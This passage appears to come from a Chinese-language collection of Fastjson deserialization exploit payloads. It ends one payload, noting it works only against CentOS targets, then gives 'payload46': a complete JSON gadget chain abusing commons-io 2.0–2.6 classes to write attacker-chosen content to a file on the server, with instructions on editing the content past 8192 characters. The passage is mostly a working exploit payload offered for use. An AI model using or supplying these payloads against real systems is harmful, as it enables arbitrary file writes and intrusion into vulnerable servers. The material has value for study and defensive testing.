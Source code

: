 ```plain
            },
            "bufLen":1048576
        },
        "protocolVersion":1
    }
}
```

`Windows`下利用会报错，只能在目标是`centos`的情况下使用：

[![](assets/1706959415-f50aa05ac97036a14d45a60692f1f4cb.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021200857762.png)

至于为什么会这样，请参考以下文章，写的很清楚很明白，在此不再赘述：

> [https://www.cnblogs.com/zpchcbd/p/14969606.html](https://www.cnblogs.com/zpchcbd/p/14969606.html)

### 5.1.2 commons-io 2.0~2.6 版本

`payload46`：

需要注意，需要修改下面的`W01fh4ckeraaaaaa...`为自己想要写入的内容，需要注意的是，**长度要大于`8192`，实际写入前`8192`个字符**！具体原因请参考下面的文章，文章里面写的非常清楚：

> [https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg](https://mp.weixin.qq.com/s/6fHJ7s6Xo4GEdEGpKFLOyg)

```plain
{"x":{"@type":"com.alibaba.fastjson.JSONObject","input":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa..."},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker.txt","encoding":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"trigger":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger2":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger3":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","is":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"}}}
```